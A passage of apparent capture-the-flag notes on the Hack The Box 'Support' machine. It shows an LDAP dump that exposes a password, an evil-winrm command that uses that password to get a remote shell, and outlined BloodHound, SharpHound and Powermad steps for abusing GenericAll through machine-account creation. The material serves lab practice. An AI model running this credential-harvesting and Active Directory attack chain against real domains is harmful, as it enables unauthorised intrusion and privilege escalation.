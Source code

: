 ```
        ],
        "c": [
            "US"
        ],
        "cn": [
            "support"
        ],
        "codePage": [
            0
        ],
        "company": [
            "support"
        ],
        "countryCode": [
            0
        ],
        "dSCorePropagationData": [
            "2022-05-28 11:12:01+00:00",
            "1601-01-01 00:00:00+00:00"
        ],
        "distinguishedName": [
            "CN=support,CN=Users,DC=support,DC=htb"
        ],
        "info": [
            "Ironside47pleasure40Watchful"
        ],
   <snip>
    },
    "dn": "CN=support,CN=Users,DC=support,DC=htb"
```

Q6: What open port on Support allows a user in the Remote Management Users group to run PowerShell commands and get an interactive shell?
- port 5985 is allocated for Winrm and we can use `evil-winrm` to gain RCE over target
```
$ evil-winrm -i 10.10.11.174  -u support -p Ironside47pleasure40Watchful
```

Q8: Bloodhound data will show that the support user has what privilege on the DC.SUPPORT.HTB object?
- load and execute `sharphound.exe` on target
- we can download the output zip file using `download` command in `evil-winrm`
- start up `bloodhound` and we can analyse the relationship between the two nodes
![[GenericAll.png]]
Q9: A common attack with generic all on a computer object is to add a fake computer to the domain. What attribute on the domain sets how many computer accounts a user is allowed to create in the domain?
- we can view the windows abuse tab by clicking on the `GenericAll` which tells us what attack we can use to exploit the privilege
![[GenericAll Exploit.png]]
- we can use `powermad` to facilitate the exploit: https://github.com/Kevin-Robertson/Powermad
- `ms-DS-MachineAccountQuota` states the amount of machine acounts domain users can add to the domain

